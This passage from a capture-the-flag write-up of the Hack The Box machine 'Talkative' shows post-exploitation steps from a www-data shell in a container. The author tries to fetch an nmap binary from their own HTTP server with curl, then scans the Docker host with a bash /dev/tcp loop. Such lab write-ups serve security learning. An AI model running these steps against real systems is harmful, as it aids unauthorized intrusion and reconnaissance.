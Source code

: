 Hmm... `ssh` is installed...

**Maybe I can SSH into the host??**

Let's do some port scanning. We can do that via `nmap`.

**However, I tried to transfer the `nmap` static binary, but no luck:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:00:52(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86_64/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ curl -s http://10.10.14.6/nmap
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htbnmap">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at 10.10.14.6 Port 80</address>
</body></html>
```

It just kept redirecting to `talkative.htb`...

I also tried to use base64 encode and decode to transfer file, but no luck again.

**Nevermind, we can just write a Bash script to scan ports!**
```shell
www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ for port in {1..65535}; do (echo >/dev/tcp/172.17.0.1/$port) >/dev/null 2>&1 && echo "port $port is open"; done
port 22 is open
port 80 is open
port 6000 is open
port 6001 is open
port 6002 is open
port 6003 is open
port 6004 is open
port 6005 is open
port 6006 is open
port 6007 is open
port 6008 is open
port 6009 is open
port 6010 is open
port 6011 is open
port 6012 is open
port 6013 is open
port 6014 is open
port 6015 is open
port 8080 is open
port 8081 is open
port 8082 is open
```
